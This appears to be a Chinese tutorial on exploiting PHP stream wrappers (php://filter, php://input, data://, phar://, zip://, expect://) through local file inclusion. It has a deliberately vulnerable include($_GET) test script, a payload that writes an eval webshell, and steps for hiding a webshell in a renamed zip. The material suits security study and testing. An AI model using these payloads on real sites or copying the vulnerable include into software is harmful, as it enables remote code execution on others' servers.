PHP 带有很多内置 URL 风格的封装协议，可用于类似 fopen()、 copy()、 file_exists() 和 filesize() 的文件系统函数。 除了这些封装协议，还能通过 stream_wrapper_register() 来注册自定义的封装协议。
## Table of Contents 


## php://      输入输出流
PHP 提供了一些杂项输入/输出（IO）流，允许访问 PHP 的输入输出流、标准输入输出和错误描述符， 内存中、磁盘备份的临时文件流以及可以操作其他读取写入文件资源的过滤器。。
### php://filter（本地磁盘文件进行读取）
元封装器，设计用于"数据流打开"时的"筛选过滤"应用，对本地磁盘文件进行读写

用法：?filename=php://filter/convert.base64-encode/resource=xxx.php
?filename=php://filter/read=convert.base64-encode/resource=xxx.php 一样

条件：只是读取，需要开启 allow_url_fopen，不需要开启 allow_url_include；

php://filter 目标使用以下的参数作为它路径的一部分。 复合过滤链能够在一个路径上指定。详细使用这些参数可以参考具体范例。


测试代码：
```
<?php
	$filename  = $_GET['filename'];
	include($filename);
?>
```
测试结果：

###  php://input
可以访问请求的原始数据的只读流。即可以直接读取到POST上没有经过解析的原始数据。
enctype="multipart/form-data" 的时候 php://input 是无效的。

用法：?file=php://input 数据利用POST传过去


####  php://input （读取POST数据）

碰到file_get_contents()就要想到用php://input绕过，因为php伪协议也是可以利用http协议的，即可以使用POST方式传数据，具体函数意义下一项；

测试代码：
```
<?php
	echo file_get_contents("php://input");
?>
```
测试结果：

 

####  php://input（写入木马）
测试代码：
```
<?php
	$filename  = $_GET['filename'];
	include($filename);
?>
```
条件：php配置文件中需同时开启 allow_url_fopen 和 allow_url_include（PHP < 5.3.0）,就可以造成任意代码执行，在这可以理解成远程文件包含漏洞（RFI），即POST过去PHP代码，即可执行。

如果POST的数据是执行写入一句话木马的PHP代码，就会在当前目录下写入一个木马。
```
<?PHP fputs(fopen('shell.php','w'),'<?php @eval($_POST[cmd])?>');?>
```



测试结果：


如果不开启allow_url_include会报错

 
####  php://input（命令执行）
测试代码：
```
<?php
	$filename  = $_GET['filename'];
	include($filename);
?>
```
条件：php配置文件中需同时开启 allow_url_fopen 和 allow_url_include（PHP < 5.30）,就可以造成任意代码执行，在这可以理解成远程文件包含漏洞（RFI），即POST过去PHP代码，即可执行；

如果不开启allow_url_include会报错

 
###  file://伪协议 （读取文件内容）
通过file协议可以访问本地文件系统，读取到文件的内容

测试代码：
```
<?php
	$filename  = $_GET['filename'];
	include($filename);
?>
```
测试结果：

 
###  data://伪协议

数据流封装器，和php://相似都是利用了流的概念，将原本的include的文件流重定向到了用户可控制的输入流中，简单来说就是执行文件的包含方法包含了你的输入流，通过你输入payload来实现目的；
data://text/plain;base64,dGhlIHVzZXIgaXMgYWRtaW4
#### data://（读取文件）
和php伪协议的input类似，碰到file_get_contents()来用；
<?php
// 打印 "I love PHP"
echo file_get_contents('data://text/plain;base64,SSBsb3ZlIFBIUAo=');
?>
注意：
<?php phpinfo();,这类执行代码最后没有?>闭合；
#### data://（读取文件）
如果php.ini里的allow_url_include=On（PHP < 5.3.0）,就可以造成任意代码执行，同理在这就可以理解成远程文件包含漏洞（RFI）
测试代码：
```
<?php
	$filename  = $_GET['filename'];
	include($filename);
?>
```
测试结果：


### phar://伪协议
这个参数是就是php解压缩包的一个函数，不管后缀是什么，都会当做压缩包来解压。

用法：?file=phar://压缩包/内部文件
phar://xxx.png/shell.php
注意：
PHP > =5.3.0
压缩包需要是zip协议压缩，rar不行，将木马文件压缩后，改为其他任意格式的文件都可以正常使用。
步骤：
写一个一句话木马文件shell.php，然后用zip协议压缩为shell.zip，然后将后缀改为png等其他格式。
测试代码：
```
<?php
	$filename  = $_GET['filename'];
	include($filename);
?>
```
测试结果：


###  zip://伪协议
zip伪协议和phar协议类似，但是用法不一样。

用法：?file=zip://[压缩文件绝对路径]#[压缩文件内的子文件名]
zip://xxx.png#shell.php

条件：
PHP > =5.3.0，注意在windows下测试要5.3.0<PHP<5.4 才可以
\#在浏览器中要编码为%23，否则浏览器默认不会传输特殊字符

测试代码：
```
<?php
	$filename  = $_GET['filename'];
	include($filename);
?>
```
测试结果：

###  PHP expect://

还未测试

允许执行系统命令，不过很可惜，需要安装扩展

http://pecl.php.net/package/expect

默认情况下不启用

http://127.0.0.1/lfi.php?file=expect://ls
